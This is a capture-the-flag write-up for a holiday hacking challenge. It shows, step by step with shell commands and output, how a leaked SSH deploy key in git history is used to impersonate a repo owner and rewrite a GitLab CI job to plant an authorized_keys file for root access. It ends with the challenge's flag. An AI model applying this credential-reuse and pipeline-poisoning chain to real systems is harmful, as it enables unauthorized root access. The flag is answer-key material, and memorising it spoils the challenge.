

# Jolly CI/CD

### Challenge

:::info Question
Exploit a CI/CD pipeline. Get hints for this challenge from Tinsel Upatree in the Elfen Ring.
:::

Hm... That's not a very descriptive prompt. Since we're still feeling the rush from escaping from a container in the last challenge, let's see if we can escape this one too:



We're not exactly container escape experts, but these permissions look pretty locked down. We'll try to pull another thread.

---

Before we started this, we overheard the following hint:

> WHOOPS! I didn't mean to commit that to http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git...
>
> - Tinsel Upatree, 2022 CE, moments before being fired from the North Pole IT department

It seems that if we can get access to this mistaken commit, maybe we'll find something that will be useful to us. We'll start by checking to see if our host knows where this Gitlab host might be.

```
grinchum-land:~$ cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.18.0.99     grinchum-land.flag.net.internal grinchum-land
```

We don't have the exact IP, but it does look like we are at least on the same network. Using ```nmap``` (which is very fortunately installed on this host), we'll check to see if we can find any more hosts on ```172.18.0.0/24```:

```
grinchum-land:/run# nmap -sP 172.18.0.0/24
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-29 04:27 GMT
Nmap scan report for 172.18.0.1
Host is up (0.000073s latency).
MAC Address: 02:42:2A:58:71:F6 (Unknown)
Nmap scan report for wordpress-db.local_docker_network (172.18.0.87)
Host is up (0.000041s latency).
MAC Address: 02:42:AC:12:00:57 (Unknown)
Nmap scan report for wordpress.local_docker_network (172.18.0.88)
Host is up (0.000029s latency).
MAC Address: 02:42:AC:12:00:58 (Unknown)
Nmap scan report for gitlab.local_docker_network (172.18.0.150)
Host is up (0.000041s latency).
MAC Address: 02:42:AC:12:00:96 (Unknown)
Nmap scan report for grinchum-land.flag.net.internal (172.18.0.99)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 1.82 seconds
```

Bingo! And it looks like we had DNS all along 🤦... These hosts all look interesting, but we'll start by seeing if we can clone this repo we're looking for:

```
grinchum-land:~$ git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
Cloning into 'wordpress.flag.net.internal'...
remote: Enumerating objects: 10195, done.
remote: Total 10195 (delta 0), reused 0 (delta 0), pack-reused 10195
Receiving objects: 100% (10195/10195), 36.49 MiB | 25.79 MiB/s, done.
Resolving deltas: 100% (1799/1799), done.
Updating files: 100% (9320/9320), done.
```

Without a hitch, we now have the repo. Let's look through the commit history with ```git log``` to try and find the mistaken commit

```
grinchum-land:~$ cd wordpress.flag.net.internal
grinchum-land:~/wordpress.flag.net.internal$ git log
commit 37b5d575bf81878934adb937a4fff0d32a8da105 (HEAD -> main, origin/main, origin/HEAD)
Author: knee-oh <sporx@kringlecon.com>
Date:   Wed Oct 26 13:58:15 2022 -0700

    updated wp-config

...

commit e2208e4bae4d41d939ef21885f13ea8286b24f05
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:43:53 2022 -0700

    big update

commit e19f653bde9ea3de6af21a587e41e7a909db1ca5
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:54 2022 -0700

    whoops

commit abdea0ebb21b156c01f7533cea3b895c26198c98
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:13 2022 -0700

    added assets
…
```

A few commits down, we can see that commit ID ```e19f653bde9ea3de6af21a587e41e7a909db1ca5``` has a commit message of "whoops". That's almost definitely our culprit. If the "whoops" commit is where knee-oh realized their mistake, let's check out the commit before it and see if we can find something.

```
grinchum-land:~/wordpress.flag.net.internal$ git checkout abdea0ebb21b156c01f7533cea3b895c26198c98
...
grinchum-land:~/wordpress.flag.net.internal$ ls -la
total 48
drwxr-xr-x 5 samways users  4096 Jan  7 01:56 .
drwxr-xr-x 1 samways  1002  4096 Jan  7 01:52 ..
drwxr-xr-x 8 samways users  4096 Jan  7 01:56 .git
drwxr-xr-x 2 samways users  4096 Jan  7 01:56 .ssh
-rw-r--r-- 1 samways users 19915 Jan  7 01:52 license.txt
-rw-r--r-- 1 samways users  7401 Jan  7 01:52 readme.html
drwxr-xr-x 6 samways users  4096 Jan  7 01:52 wp-content
```

If we needed to, we could have compared this revision to the one after it to see what changed, but since we've spotted a ```.ssh``` directory in this folder, there's really no need.

```
grinchum-land:~/wordpress.flag.net.internal$ cd .ssh/
grinchum-land:~/wordpress.flag.net.internal/.ssh$ ls -la
total 16
drwxr-xr-x 2 samways users 4096 Jan  7 01:56 .
drwxr-xr-x 5 samways users 4096 Jan  7 01:56 ..
-rw-r--r-- 1 samways users  411 Jan  7 01:56 .deploy
-rw-r--r-- 1 samways users  102 Jan  7 01:56 .deploy.pub
grinchum-land:~/wordpress.flag.net.internal/.ssh$ cat .deploy.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBri sporx@kringlecon.com
```

We'll add these SSH keys to our own ```.ssh``` directory for simplicity's sake:

```
grinchum-land:~/wordpress.flag.net.internal/.ssh$ mkdir ~/.ssh
grinchum-land:~/wordpress.flag.net.internal/.ssh$ mv .deploy.pub ~/.ssh/id_ed25519.pub
grinchum-land:~/wordpress.flag.net.internal/.ssh$ mv .deploy ~/.ssh/id_ed25519
grinchum-land:~/wordpress.flag.net.internal/.ssh$ chmod 600 ~/.ssh/*
```

At this point, there's several ways to attempt to use this SSH cert (believe us, we tried), but only one will work: we can use these keys to authenticate to the Gitlab server as "knee-oh", the owner of the repo!

```
grinchum-land:~/wordpress.flag.net.internal/.ssh$ ssh git@gitlab
The authenticity of host 'gitlab (172.18.0.150)' can't be established.
ED25519 key fingerprint is SHA256:jW9axa8onAWH+31D5iHA2BYliy2AfsFNaqomfCzb2vg.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'gitlab' (ED25519) to the list of known hosts.
PTY allocation request failed on channel 0
Welcome to GitLab, @knee-oh!
Connection to gitlab closed.
```

Since the Gitlab server thinks we're knee-oh, we can now set the repository's remote URL to use SSH instead of HTTP. Or, if you're as brutish as we are, just delete it and check it out again:

```
grinchum-land:~/wordpress.flag.net.internal$ cd ..
grinchum-land:~$ rm -rf wordpress.flag.net.internal/
grinchum-land:~$ git clone git@gitlab:rings-of-powder/wordpress.flag.net.internal.git
Cloning into 'wordpress.flag.net.internal'...
remote: Enumerating objects: 10195, done.
remote: Total 10195 (delta 0), reused 0 (delta 0), pack-reused 10195
Receiving objects: 100% (10195/10195), 36.49 MiB | 21.74 MiB/s, done.
Resolving deltas: 100% (1799/1799), done.
Updating files: 100% (9320/9320), done.
```

We're nearing the end here, but the main thing that we need to consider next is how to get the CI/CD runner agent to set up the host so that we can access it. We can see what the runner currently does by checking out by examining the repo's CI/CD configuration - ```.gitlab-ci.yml```. This file is located in the root of the repository:

```
grinchum-land:~/wordpress.flag.net.internal$ cat .gitlab-ci.yml 
stages:
  - deploy

deploy-job:      
  stage: deploy 
  environment: production
  script:
    - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress ./ root@wordpress.flag.net.internal:/var/www/html
```

What exists currently is a simple rsync command that copies the full contents of this repository to ```root@wordpress.flag.net.internal:/var/www/html```. Since we already have an SSH key, why don't we use that to get onto the Wordpress host? Since we'll need to trust the key, we make a file in the root of the repository named [```authorized_keys```](https://www.ssh.com/academy/ssh/authorized-keys-file) and load it with our SSH identity's public key:

```
grinchum-land:~/wordpress.flag.net.internal$ cat ~/.ssh/id_ed25519.pub > authorized_keys
```

Once we've done that, we'll update the rsync command to copy it over to where we need it in root's ```.ssh``` directory. We'll modify the runner script to the following:

```
- rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" -atv --delete --progress ./authorized_keys root@wordpress.flag.net.internal:/root/.ssh/
```

Once all this is saved, we're ready to commit our changes and push them so that the CI/CD runner can (hopefully) let us into the Wordpress server.

```
grinchum-land:~/wordpress.flag.net.internal$ git config --global user.email sprox@kriglecon.com
grinchum-land:~/wordpress.flag.net.internal$ git config --global user.name knee-oh
grinchum-land:~/wordpress.flag.net.internal$ git commit -a -m "whoops * 2"
[main 828689f] whoops * 2
 1 file changed, 2 insertions(+), 1 deletion(-)
grinchum-land:~/wordpress.flag.net.internal$ git push origin main
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Delta compression using up to 2 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 327 bytes | 327.00 KiB/s, done.
Total 3 (delta 2), reused 0 (delta 0), pack-reused 0
To gitlab:rings-of-powder/wordpress.flag.net.internal.git
   37b5d57..828689f  main -> main
```

Now, the moment of truth. We'll try to SSH to the Wordpress server as root.

```
grinchum-land:~/wordpress.flag.net.internal$ ssh root@wordpress
Linux wordpress.flag.net.internal 5.10.51 #1 SMP Mon Jul 19 19:08:01 UTC 2021 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@wordpress:~# 
```

We're in! All that's left is to cat the flag at ```/flag.txt``` to find some great ASCII art and our answer, which is **```oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT```**.

